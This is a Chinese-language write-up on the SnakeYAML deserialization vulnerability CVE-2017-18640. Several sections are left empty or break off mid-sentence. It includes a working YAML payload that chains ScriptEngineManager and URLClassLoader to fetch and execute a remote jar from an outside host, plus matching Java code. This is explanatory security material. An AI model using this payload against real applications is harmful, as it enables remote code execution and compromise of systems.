


# SnakeYaml反序列化漏洞（CVE-2017-18640）

影响范围


# 二、漏洞描述


说是漏洞，其实也算是feature，类似于fastjson，这是人家支持的功能。 


新建一个类`Foo`用于测试： 

```java
package com.cc11001100;

public class Foo {

    private String bar;

    public String getBar() {
        return bar;
    }

    public void setBar(String bar) {
        this.bar = bar;
    }

    @Override
    public String toString() {
        return "Foo{" +
                "bar='" + bar + '\'' +
                '}';
    }
}
```

尝试反序列化这个类：

```java
package com.cc11001100;

import cc11001100.snakeyaml.domain.Foo;
import org.yaml.snakeyaml.Yaml;

import java.io.IOException;

public class Main {

    public static void main(String[] args) throws IOException {

        Yaml yaml = new Yaml();
        Foo foo = yaml.load("!!Foo {bar: 'xxx'}");
        System.out.println(foo);
        System.out.println(yaml.dump(foo));

    }

}
```

可以看到反序列化成功，并且成员变量的值也被成功设置进去了：




调用链：



```
loadAs
    loadFromReader
        getSingleData
            constructDocument
                constructObjectNoCheck
                    constructObjectNoCheck
```

因为是其本身提供的功能，所以调用链其实没什么意义。


# 三、漏洞利用：ScriptEngineManager

## 3.1 如何利用

在Java中有个

```
https://github.com/artsploit/yaml-payload
```


### 为什么选择这个gadget？

1. `ScriptEngineManager`这个类和


## 3.2 能出网：远程加载jar文件

就是通过`javax.script.ScriptEngineManager`的构造函数传递一个`java.net.URLClassLoader`来远程加载类文件执行，只要这个被加载的文件是`EvilScriptEngineFactory`类型即可。

```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://artsploit.com/yaml-payload.jar"]
  ]]
]
```

下面的构造方法接受一个`ClassLoader`类型的加载器： 

```java
    /**
     * This constructor loads the implementations of
     * <code>ScriptEngineFactory</code> visible to the given
     * <code>ClassLoader</code> using the service provider mechanism.<br><br>
     * If loader is <code>null</code>, the script engine factories that are
     * bundled with the platform are loaded. <br>
     *
     * @param loader ClassLoader used to discover script engine factories.
     */
    public ScriptEngineManager(ClassLoader loader) {
        initEngines(loader);
    }
```

可以通过`URLClassLoader`来远程加载：

```java
String remoteJarUrl = "xxx";
new ScriptEngineManager(new URLClassLoader(new URL[]{new URL(remoteJarUrl)})); 
```


## 3.3 不能出网：加载本地jar文件


# 四、漏洞利用：结合其它框架 


# 五、相关资料

- https://github.com/artsploit/yaml-payload

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-18640
- https://nvd.nist.gov/vuln/detail/CVE-2017-18640
- https://tttang.com/archive/1591/
- https://xz.aliyun.com/t/9934
- https://xz.aliyun.com/t/11599
- https://paper.seebug.org/1657/
- https://xz.aliyun.com/t/10655
- https://drops.blbana.cc/2020/03/24/Java-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/

